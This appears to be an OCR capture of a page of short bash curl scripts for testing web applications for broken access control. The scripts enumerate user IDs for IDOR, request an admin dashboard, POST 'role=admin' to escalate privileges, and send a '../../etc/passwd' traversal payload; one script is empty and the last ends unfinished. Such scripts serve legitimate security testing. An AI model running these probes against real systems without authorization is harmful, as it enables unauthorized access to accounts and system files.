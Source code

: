 ```bash
#!/bin/bash

USER_ID="123"  # Your own user ID
TARGET_URL="http://example.com/profile/"

# Loop through different user IDs
for ID in {1..100}; do
  RESPONSE=$(curl -s -o /dev/null -w "%{http_code}" "${TARGET_URL}${ID}")
  if [ $RESPONSE -eq 200 ]; then
    echo "Potential IDOR Vulnerability found for user ID: $ID"
  fi
done


```

#### bash script 05:

```bash
#!/bin/bash

# Test unauthorized access to a restricted resource
curl -i http://example.com/admin/dashboard -X GET

# Test vertical privilege escalation
curl -i -X POST http://example.com/user/profile -d "role=admin&user_id=123"


```

#### bash script 06:

```bash
#!/bin/bash

# Replace the URL with the target application endpoint
TARGET_URL="http://example.com/files/"

# Directory traversal payload
TRAV_TRAVERSAL="../../../../../etc/passwd"

# Send request to the target URL with directory traversal payload
curl -s -o /dev/null -w "%{http_code}\n" "$TARGET_URL$TRAV_TRAVERSAL"


```
#### bash script 07:

```bash


```
#### bash script 08:
```bash
#!/bin/bash

# Example script to test for Broken Access Control
# Replace <URL> with the target application URL

TARGET_URL="<URL>/restricted-resource"
COOKIE="session=your_session_cookie"

# Make a request to the restricted resource
RESPONSE=$(curl -s -o /dev/null -w "%{http_code}" -X GET $TARGET_URL -H "Cookie: $COOKIE")

```